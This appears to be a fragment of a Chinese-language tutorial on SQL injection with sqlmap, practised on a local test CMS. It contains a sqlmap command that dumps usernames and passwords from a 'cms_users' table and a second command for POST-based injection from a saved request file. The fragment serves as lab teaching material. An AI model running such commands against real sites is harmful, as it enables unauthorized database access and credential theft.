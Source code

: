 ![image-20230824204836468](./imgs/58ea406ae750d6d3d42882c82bb02f54.png)

```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" -D "cms" -T "cms_users" -C "username,password" --dump
```

![image-20230824205204198](./imgs/bc9bb4bcb50d94818f59bd5543425d32.png)

#### POST注入

```sql
sqlmap -r  post数据包的文件
```

以cms这个靶场环境为例，http://127.0.0.1/cms/admin/login.php
